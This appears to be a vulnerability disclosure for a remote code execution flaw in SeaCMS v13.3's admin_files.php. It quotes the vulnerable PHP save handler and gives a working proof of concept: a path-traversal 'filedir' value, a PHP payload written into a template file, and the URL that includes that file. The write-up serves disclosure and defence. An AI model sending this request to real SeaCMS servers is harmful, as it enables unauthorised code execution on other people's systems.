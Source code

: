 ## admin_files.php RCE

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_files.php` imposes certain restrictions on edited file suffixes, an attacker can achieve command execution and gain system privileges by writing to the admin_files.htm file, in conjunction with file inclusion.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)
### Vulnerability Analysis and Exploitation

The vulnerable code is located in `0omeqd/admin_files.php`. When the `action=save` parameter is passed, there is no path traversal check, allowing an attacker to write files such as `0omeqd/templets/admin_files.htm`. This can be done by passing the following parameters:
- `filedir=../uploads/../0omeqd/templets/admin_files.htm`
- `content=<?php phpinfo();?>`

```php
elseif($action=='save')  
{  
    if($filedir == '')  
    {  
       ShowMsg('未指定要编辑的文件或文件名不合法', '-1');  
       exit();  
    }  
    if(substr(strtolower($filedir),0,$dirlen)!=$dirTemplate){  
       ShowMsg("只允许编辑附件目录！","admin_files.php");  
       exit;  
    }  
    $filetype=getfileextend($filedir);  
    if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")  
    {  
       ShowMsg("操作被禁止！","admin_files.php");  
       exit;  
    }  
    $folder=substr($filedir,0,strrpos($filedir,'/'));  
    if(!is_dir($folder)){  
       ShowMsg("目录不存在！","admin_files.php");  
       exit;  
    }  
    $content = stripslashes($content);  
    $content = m_eregi_replace("##textarea","<textarea",$content);  
    $content = m_eregi_replace("##/textarea","</textarea",$content);  
    $content = m_eregi_replace("##form","<form",$content);  
    $content = m_eregi_replace("##/form","</form",$content);  
    createTextFile($content,$filedir);  
    ShowMsg("操作成功！","admin_files.php?path=".$folder);  
    exit;  
}
```

When the parameter `action=custom` is passed, the file `0omeqd/templets/admin_files.htm` is included.
![](./public/5-1.png)

#### Exploitation POC

An attacker can send the following request to achieve remote code execution:
```
POST /0omeqd/admin_files.php?action=save HTTP/1.1


content=<?php+phpinfo();?>&filedir=../uploads/../0omeqd/templets/admin_files.htm&Submit=%E4%BF%AE%E6%94%B9%E6%96%87%E4%BB%B6
```
![](./public/5-3.png)


**Payload:**
```
filedir=../uploads/../0omeqd/templets/admin_files.htm
content=<?php phpinfo();?>
```

After injecting the payload, the file can be accessed via the following URL to trigger file inclusion and achieve RCE:

```r
0omeqd/admin_files.php?action=custom
```
![](./public/5-2.png)
